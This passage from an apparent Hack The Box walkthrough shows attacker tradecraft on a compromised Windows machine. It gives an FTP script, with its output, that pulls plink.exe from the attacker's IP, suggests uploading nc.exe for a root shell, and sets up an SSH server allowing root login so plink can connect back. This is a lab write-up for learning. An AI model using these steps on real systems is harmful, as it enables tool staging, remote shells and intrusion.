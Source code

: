 ```
password 
binary 
GET plink.exe 
bye 
```

If you want you can also upload nc.exe, to run as administrator later in order to get root shell.

And we can run it like this:

```
C:\WINDOWS\Temp>ftp -v -n -s:ftp.txt
ftp -v -n -s:ftp.txt
Connected to 10.10.14.21.
open 10.10.14.21 21  
220 pyftpdlib 1.5.6 ready.
user anonymous 
331 Username ok, send password.

230 Login successful.
binary 
200 Type set to: Binary.
GET plink.exe 
200 Active data connection established.
125 Data connection already open. Transfer starting.
226 Transfer complete.
ftp: 311296 bytes received in 0.19Seconds 1664.68Kbytes/sec.
bye 
221 Goodbye.

C:\WINDOWS\Temp>
```

-v suppresses verbose response

-n suppresses auto-login

-s:file specifies the file that contains ftp commands.

So now we have uploaded plink.exe to the target machine. What can we use this for?

Plink is a command-line connection tool. It works very similar to SSH in linux terminals.

So first we need to configure our ssh server. 

`sudo vim /etc/ssh/sshd_config` to enable editing of the server config file. /etc/ssh/ssh_config is the client file. Note the d.

Port 22 is blocked on HTB, so we need to change the default port:

`Port 4222` at the top, Just remove the `#` and change the number

`PermitRootLogin yes` Remove the `#` and set it to yes. This will allow remote connections to log in as root. Which we want for this.

And add these lines at the bottom:
```
#Legacy changes
KexAlgorithms +diffie-hellman-group1-sha1
Ciphers +aes128-cbc
```
Which enables some key exchange algorithms so the machines can communicate.
